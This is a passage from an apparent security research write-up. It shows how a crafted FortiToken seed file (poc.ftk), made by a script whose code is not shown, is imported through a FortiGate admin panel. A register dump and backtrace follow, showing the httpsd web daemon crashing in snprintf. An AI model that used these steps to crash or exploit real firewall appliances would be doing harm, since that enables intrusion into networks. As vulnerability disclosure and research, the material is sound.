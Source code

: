 ```bash
  $ python3 ftk.py > poc.ftk
```

Importing a seed file is easy:

```text
  1. User & Authentication -> FortiTokens -> Create New -> Import -> Seed File
  2. Upload poc.ftk
``` 

Hmm... what's this? Another error? Let's see what the crashlog has to say:

```text
  <02664> firmware FortiGate-VM64 v7.2.7,build1577b1577,240131 (GA.M) (Release)
  <02664> application httpsd
  <02664> *** signal 11 (Segmentation fault) received ***
  <02664> Register dump:
  <02664> RAX: 0000000010da2830   RBX: 0000000010db020c
  <02664> RCX: 00007ffd536af008   RDX: 00007fd3f60e3fc0
  <02664> R08: 0000000010d981c0   R09: 00007fd3f6122be0
  <02664> R10: 0000000000000010   R11: 0000000000000000
  <02664> R12: 00007ffd536a7900   R13: 0000000000001337
  <02664> R14: 0000000000000004   R15: 0000000000000a67
  <02664> RSI: 00007ffd536a9618   RDI: 00007ffd536af000
  <02664> RBP: 00007ffd536a8160   RSP: 00007ffd536a7810
  <02664> RIP: 00007fd3f5fcec6c   EFLAGS: 0000000000010212
  <02664> CS:  0033   FS: 0000   GS: 0000
  <02664> Trap: 000000000000000e   Error: 0000000000000004
  <02664> OldMask: 0000000000000000
  <02664> CR2: 00007ffd536af000
  <02664> stack: 0x7ffd536a7810 - 0x7ffd536acfc0 
  <02664> Backtrace:
  <02664> [0x7fd3f5fcec6c] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  00064c6c
  <02664> [0x7fd3f5fd105d] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  0006705d
  <02664> [0x7fd3f5fe4826] => /usr/lib/x86_64-linux-gnu/libc.so.6  liboffset 
  0007a826
  <02664> [0x7fd3f5fbdd42] => /usr/lib/x86_64-linux-gnu/libc.so.6 
  (__snprintf+0x00000092) liboffset 00053d42
  <02664> [0x0290048a] => /bin/httpsd  
  <02664> [0x00de6fbd] => /bin/httpsd  
  <02664> [0x00d08dc4] => /bin/httpsd  
  <02664> [0x00d09419] => /bin/httpsd  
  <02664> [0x00d0b547] => /bin/httpsd  
  <02664> [0x00d0d01d] => /bin/httpsd  
  <02664> [0x00caeef9] => /bin/httpsd  
  <02664> [0x00e9984a] => /bin/httpsd (ap_run_handler+0x0000004a) 
  <02664> [0x00e9a0a6] => /bin/httpsd (ap_invoke_handler+0x000000c6) 
  <02664> [0x00ee1ec9] => /bin/httpsd  
  <02664> [0x00ee2111] => /bin/httpsd (ap_process_request+0x00000021) 
  <02664> [0x00eda23f] => /bin/httpsd  
  <02664> [0x00e9e0aa] => /bin/httpsd (ap_run_process_connection+0x0000004a) 
  <02664> [0x00eb3cb7] => /bin/httpsd  
  <02664> [0x00eb3f86] => /bin/httpsd  
  <02664> [0x00eb3fcb] => /bin/httpsd  
  <02664> [0x00eb48e5] => /bin/httpsd  
  <02664> [0x00eafa51] => /bin/httpsd (ap_run_mpm+0x00000061) 
  <02664> [0x00eaf586] => /bin/httpsd  
  <02664> [0x00449f6f] => /bin/httpsd  
  <02664> [0x0044f498] => /bin/httpsd  
  <02664> [0x0044fc8a] => /bin/httpsd  
  <02664> [0x004524af] => /bin/httpsd  
  <02664> [0x00452dd9] => /bin/httpsd  
  <02664> [0x7fd3f5f8ddeb] => /usr/lib/x86_64-linux-gnu/libc.so.6 
```